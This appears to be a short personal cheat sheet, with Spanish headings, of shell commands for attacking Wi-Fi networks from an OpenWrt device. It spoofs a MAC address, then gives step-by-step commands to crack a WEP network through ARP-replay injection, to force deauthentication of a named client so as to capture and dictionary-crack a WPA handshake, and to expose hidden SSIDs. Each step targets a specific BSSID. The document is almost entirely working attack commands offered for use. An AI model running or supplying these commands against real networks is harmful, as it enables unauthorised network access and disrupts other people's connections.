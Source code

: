 
opkg update
opkg install macchanger

iw dev
airodump-ng phy1-mon0 --band a --write /tmp/20251026_monitoring_5ghz
airodump-ng phy1-mon0 --band a --write /tmp/20251026_monitoring_5ghz --update 5 --output-format csv,pcap

ifconfig phy1-mon0 down
macchanger -m 5A:62:8B:4C:D3:25 phy1-mon0
ifconfig phy1-mon0 up


1. Ataque a Red WEP (20:05:B7:00:58:7A)

# Capturar paquetes IV para WEP
airodump-ng -c 40 --bssid 20:05:B7:00:58:7A -w wep_attack phy1-mon0

# En otra terminal, inyectar tráfico para acelerar
aireplay-ng --arpreplay -b 20:05:B7:00:58:7A -h 5A:62:8B:4C:D3:25 phy1-mon0

# Cuando tengas suficientes IVs, romper la clave
aircrack-ng wep_attack-01.cap

2. Ataque a Red WPA (A4:08:F5:E5:AE:8F)

# Capturar handshake WPA
airodump-ng -c 40 --bssid A4:08:F5:E5:AE:8F -w wpa_attack phy1-mon0

# Forzar deautenticación para capturar handshake
aireplay-ng --deauth 10 -a A4:08:F5:E5:AE:8F -c A0:D0:DC:DB:02:8E phy1-mon0

# Verificar handshake capturado
aircrack-ng wpa_attack-01.cap

# Romper con diccionario
aircrack-ng -w /path/to/wordlist.txt -b A4:08:F5:E5:AE:8F wpa_attack-01.cap

3. Revelar SSID Ocultos

# Monitorear redes con SSID oculto
airodump-ng phy1-mon0 --band a --channel 40

# Esperar que clientes se conecten y revelen SSID
# O forzar deautenticación y reconexión


----


opkg update
opkg install curl
